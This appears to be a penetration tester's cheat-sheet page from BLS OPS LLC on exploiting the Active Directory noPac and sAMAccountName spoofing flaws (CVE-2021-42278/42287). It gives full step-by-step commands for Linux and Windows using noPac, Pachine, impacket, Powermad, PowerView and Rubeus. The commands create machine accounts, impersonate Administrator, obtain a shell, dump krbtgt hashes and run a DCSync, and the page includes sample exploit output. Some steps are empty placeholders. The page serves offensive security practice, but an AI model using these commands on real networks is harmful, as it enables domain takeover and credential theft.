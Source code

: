 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# Active Directory CVEs
### Tags
<details><summary>Tags (Click to expand)</summary><p>

Environment

		#@active #@directory #@activedirectory #@microsoft

Context

		#@samaccountnamespoof #@samaccount #@nopac #@zerologon #@zero #@logon

Tools

		#@pachine #@nopac #@rubeus #@powermad 

</p></details>

### References

### Example Attacks
#### From a Linux Machine
* No-PAC
	* <details><summary>Ridter GitHub: noPac <br />[https://github.com/Ridter/noPac](https://github.com/Ridter/noPac) (Click to expand)</summary><p>
		* References
			* Based on sam-the-admin -<br />[https://github.com/WazeHell/sam-the-admin](https://github.com/WazeHell/sam-the-admin)
			* noPac Scanner and Exploiter -<br />[https://github.com/cube0x0/noPac](https://github.com/cube0x0/noPac)
			* noPac Exploiter (and scanner?) -<br />[https://github.com/Ridter/noPac](https://github.com/Ridter/noPac)
		* Examples
			* GetST

					python noPac.py $DOMAIN/$DOMAIN_USER:$PASSWORD -dc-ip $DC_IP
			* Auto get shell

					python noPac.py $DOMAIN/$DOMAIN_USER:$PASSWORD -dc-ip $DC_IP -dc-host lab2012 -shell --impersonate administrator
			* Dump hash

					python noPac.py $DOMAIN/$DOMAIN_USER:$PASSWORD -dc-ip $DC_IP -dc-host lab2012 --impersonate administrator -dump
					python noPac.py $DOMAIN/$DOMAIN_USER:$PASSWORD -dc-ip $DC_IP -dc-host lab2012 --impersonate administrator -dump -just-dc-user $DOMAIN/krbtgt
	<details><summary>ly4k GitHub: Pachine (Click to expand)</summary><p>
		* Example

				python pachine.py -dc-host $DOMAIN_CONTROLLER -impersonate Administrator -spn dns/$DOMAIN_CONTROLLER $DOMAIN/$DOMAIN_USER:$PASSWORD -dc-ip $DC_IP
			* SPNs
				* cifs
				* DNS
				* Host(?)
				* LDAP
				* RPC
		* Sample Output

				(Pachine-AJVASppL) root@ubuntu:~/Tools/Pachine# python pachine.py -dc-host dc01.securelab.local -impersonate Administrator -spn dns/dc01.securelab.local 'securelab.local/domain_user:P@ssw0rd' -dc-ip $DC_IP
				Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

				[*] Machine account dc01 already exists. Trying to change password.
				[*] Changed password of dc01 to jjHjmJ0LbD7knDHCKENUPlXPDQr8WSVN.
				[*] Got TGT for dc01@SECURELAB.LOCAL
				[*] Changed machine account name from dc01 to DESKTOP-7UYAO157$
				[*] Requesting S4U2self
				[*] Got TGS for Administrator@securelab.local for dc01@SECURELAB.LOCAL
				[*] Changing sname from dc01@SECURELAB.LOCAL to dns/dc01.securelab.local@SECURELAB.LOCAL
				[*] Changed machine account name from DESKTOP-7UYAO157$ to dc01
				[*] Saving ticket in Administrator@securelab.local.ccache
	* WazeHell Github: sam-the-admin-<br />[https://github.com/WazeHell/sam-the-admin](https://github.com/WazeHell/sam-the-admin)
* samAccountnamespoofing
	* <details><summary>References (Click to expand)</summary><p>
		* [https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html](https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html)
		* [https://twitter.com/snovvcrash/status/1469316932180619268?t=IPm4pUbUvHVwQrZu9F3xrA](https://twitter.com/snovvcrash/status/1469316932180619268?t=IPm4pUbUvHVwQrZu9F3xrA)
		* [https://cloudbrothers.info/en/exploit-kerberos-samaccountname-spoofing/](https://cloudbrothers.info/en/exploit-kerberos-samaccountname-spoofing/)
	* <details><summary>Requirements (Click to expand)</summary><p>
		* At least 1 DC not patched with either `KB5008380` or `KB5008602`
		* Any valid domain user account
		* Machine Account Quota (MAQ) above 0
	* <details><summary>Process (Click to expand)</summary><p>
		1. Check if exploitable
			* Recommended: 

					.
		1. Create Machine Account
			* Recommended: impacket

					addcomputer.py -computer-name  anotherFakeMachine -computer-pass 'P@ssw0rd' -dc-ip $DC_IP -dc-host dc0.lab.local lab.local/first.lastname:'PASSWORD'
		1. Clear SPNs
			* Recommended: 

					.
		1. Change Machine Account samaccountname
			* Recommended: snovvcrash "Python setter for property sAMAccountName" [https://gist.github.com/snovvcrash/3bf1a771ea6b376d374facffa9e43383](https://gist.github.com/snovvcrash/3bf1a771ea6b376d374facffa9e43383)

					./renameMachine.py $DOMAIN/first.lastname:'PASSWORD' -dc-ip $DC_IP -current-name 'anotherFakeMachine$' -new-name dc0
		1. Request TGT
			* Recommended:

					getTGT.py $DOMAIN/DC0:'PASSWORD' -dc-ip $DC_IP
		1. Change Machine Account samaccountname
			* Recommended: snovvcrash "Python setter for property sAMAccountName" [https://gist.github.com/snovvcrash/3bf1a771ea6b376d374facffa9e43383](https://gist.github.com/snovvcrash/3bf1a771ea6b376d374facffa9e43383)

					./renameMachine.py $DOMAIN/first.lastname:'PASSWORD' -dc-ip $DC_IP -current-name 'dc0' -new-name 'anotherFakeMachine$'
		1. Impersonate

					export KRB5CCNAME=~/filelocation/DC0.ccache
				* `DC0.ccache` is from `getTGT.py`

						python3 examples/getST.py -spn cifs/$DOMAIN_CONTROLLER $DOMAIN/dc0 -k -no-pass -dc-ip $DC_IP -impersonate Administrator -self
		1. DCSync with the collected ccache (`Administrator.ccache`)
			* Recommended: Impacket

					KRB5CCNAME=Administrator.ccache secretsdump.py -k -no-pass $DOMAIN_CONTROLLER -just-dc


#### From a Windows Machine
##### Local (Domain Joined)
* No-PAC
	<details><summary>Process (Click to expand)</summary><p>(OpSec?) noPac Scanner and Exploiter -<br />[https://github.com/ricardojba/noPac](https://github.com/ricardojba/noPac)
		* Examples

				.\noPac.exe scan -domain lab.local -user <domaun_user> -pass <password>
* samAccountnamespoofing
	* <details><summary>References (Click to expand)</summary><p>
		* [https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html](https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html)
		* [https://twitter.com/snovvcrash/status/1469316932180619268?t=IPm4pUbUvHVwQrZu9F3xrA](https://twitter.com/snovvcrash/status/1469316932180619268?t=IPm4pUbUvHVwQrZu9F3xrA)
		* [https://cloudbrothers.info/en/exploit-kerberos-samaccountname-spoofing/](https://cloudbrothers.info/en/exploit-kerberos-samaccountname-spoofing/)
	* <details><summary>Requirements (Click to expand)</summary><p>
		* At least 1 DC not patched with either `KB5008380` or `KB5008602`
		* Any valid domain user account
		* Machine Account Quota (MAQ) above 0
	<details><summary>Process (Click to expand)</summary><p>
		1. Check if exploitable
			* Check the `SeMachineAccountPrivilege` which is granted to Authenticated Users by default:
				* Recommended: 

						.
		1. Create Machine Account
			* Recommended: PowerMad -<br />[https://github.com/Kevin-Robertson/Powermad](https://github.com/Kevin-Robertson/Powermad)

					New-MachineAccount -MachineAccount TestSPN -Domain internal.zeroday.lab -DomainController idc1.internal.zeroday.lab -Verbose
		1. Clear SPNs
			* Recommended: PowerSploit/PowerView -<br />[https://github.com/ZeroDayLab/PowerSploit/blob/master/Recon/PowerView.ps1](https://github.com/ZeroDayLab/PowerSploit/blob/master/Recon/PowerView.ps1)

					Set-DomainObject "CN=TestSPN,CN=Computers,DC=internal,DC=zeroday,DC=lab" -Clear 'serviceprincipalname' -Verbose
		1. Change Machine Account samaccountname
			* Recommended: PowerMad -<br />[https://github.com/Kevin-Robertson/Powermad](https://github.com/Kevin-Robertson/Powermad)

					Set-MachineAccountAttribute -MachineAccount TestSPN -Value "IDC1" -Attribute samaccountname -Verbose
		1. Request TGT
			* Recommended: Rubeus.exe

					.\Rubeus.exe asktgt /user:IDC1 /password:Password1 /domain:internal.zeroday.lab /dc:idc1.internal.zeroday.lab /nowrap
		1. Change Machine Account samaccountname
			* Recommended: PowerMad -<br />[https://github.com/Kevin-Robertson/Powermad](https://github.com/Kevin-Robertson/Powermad)

					Set-MachineAccountAttribute -MachineAccount TestSPN -Value "TestSPN" -Attribute samaccountname -Verbose
		1. Request S4U2self
			* Recommended: Rubeus.exe

					.\Rubeus.exe s4u /impersonateuser:Administrator /nowrap /dc:idc1.internal.zeroday.lab /self /altservice:LDAP/IDC1.internal.zeroday.lab /ptt /ticket:[TGT]

##### Remote


